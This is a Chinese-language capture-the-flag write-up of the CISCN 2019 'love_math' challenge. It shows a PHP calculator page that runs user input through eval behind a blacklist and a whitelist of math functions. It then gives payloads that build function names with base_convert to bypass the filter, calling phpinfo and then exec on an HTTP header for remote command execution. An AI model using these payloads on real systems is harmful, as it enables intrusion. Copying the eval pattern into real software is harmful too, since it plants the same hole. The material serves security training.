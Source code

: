# [CISCN 2019 初赛]

## 0x01 love_math

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

首页给了源码

思路很显然是利用数学函数getshell

一般可以利用``dechex``，``base_convert``

base_convert有36进制，0-9+a-z,所以可以利用10进制数构造小写字母字符串，根据php特性，可以构造hex2bin

然后将dechex把10进制数转化成16进制的结果作为hex2bin参数,就可以任意构造字符串

参数的话可以用pi或者pow,这些没有过滤的字符串来替代

poc

```
// phpinfo();
(base_convert(55490343972,10,36))();
```

可以利用exec(getallheader(){8})拿到shell

```
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){8})
```

在请求包里添加``8:<cmd>`` 即可RCE